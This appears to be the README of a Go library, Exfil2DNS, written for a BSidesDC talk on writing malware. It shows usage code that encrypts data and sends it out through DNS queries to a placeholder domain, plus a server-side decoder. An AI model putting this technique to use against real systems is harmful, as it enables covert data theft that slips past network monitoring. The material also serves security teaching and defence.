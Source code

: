 # Exfil2DNS
Simple library to exfiltrate data using DNS queries. 

Written for the _Hands-on Writing Malware in Go_ talk at BSidesDC 2019.

For legal use only.

## TODO

- [ ] Change "client" and "server" to more accurate names/terms
- [ ] Finish documentation (and make more consistent)
- [ ] Make code more concise (where possible)

## Usage

Encrypt and send data:
```go
import (
	"log"
	"github.com/CS-5/exfil2dns"
)
func main() {
	/* Target Name: cube, Domain: example.domain, Key: ThisIsAKey1234, Chunk Size: 23 */
	client, err := exfil2dns.NewClient("cube", "example.domain", "ThisIsAKey1234", 23)
	if err != nil {
		log.Fatal("Error creating client: " + err.Error())
	}
	/* Exfil "Here's a sneaky string" */
	err = client.Exfil([]byte("Here's a sneaky string"))
	if err != nil {
		log.Fatal("Error exfiling data: " + err.Error())
	}
}
```

Decrypt data:
```go
import (
    "log"
    "github.com/CS-5/exfil2dns"
)

func main() {
    server := exfil2dns.NewServer("ThisIsAKey1234")

    /* DNS Server */
    queryString := someDNS.server()

    out := server.Decode(queryString)

    fmt.Printf("Target: %v, Payload: %v", out[0], out[1])
}
```